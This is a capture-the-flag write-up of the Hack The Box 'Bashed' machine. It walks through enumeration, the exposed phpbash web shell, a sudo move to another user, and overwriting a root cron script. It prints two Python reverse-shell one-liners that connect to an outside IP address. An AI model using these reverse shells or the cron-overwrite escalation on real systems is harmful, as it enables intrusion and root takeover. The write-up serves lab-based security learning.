

# HACK THE BOX - BASHED WRITEUP

Lets enumerate the box with nmap


We can clearly conclue that its running a web service on port 80


It says that it is a PHP Bash site

And further we can see that

It allow PHP to execute commands on bash and redirects inputs and outputs


Now lets run Gobuster to find to find directories


We can find an interesting directory called /dev

Inside /dev we get 2 pages..which is the phpbash program



Further clicking on the second page,we get


Now,lets hunt for user.txt


Now lets escalate our privileges


We can say that, by running as "scriptmanager" user we can run any program


We could not get the TTY shell for "scriptmanager",because this page is programmed to run shell from "www-data" user

So lets check whether there is python or not,and pass a python reverse shell one liner

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9876));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


By passing this in PHPBash input,we open our listener with netcat

Now lets escalate our privileges


We have escalated from "www-data" to "scriptmanager"

There is an interesting directory in "/" called "scripts" which is unusual

We could not visit this directory as "www-data" because of permissions

There are two files in it


And the permissions for it are


Here we can see,these two files are modified recently

So this should be executed as CRON job

CRON job ---> Automated jobs/tasks in linux

And we can see that,

test.py ---> scriptmanager

test.txt ---> root

It generates a test.txt file as output

And waiting few minutes i confirmed it as a CRON job by seeing its timestamps

Now lets overwrite the test.py with reverse shell

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.6\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" >test.py
```

Which will be executed as CRON job by #ROOT


Starting a listener in Netcat and running the python script


We got #ROOT 


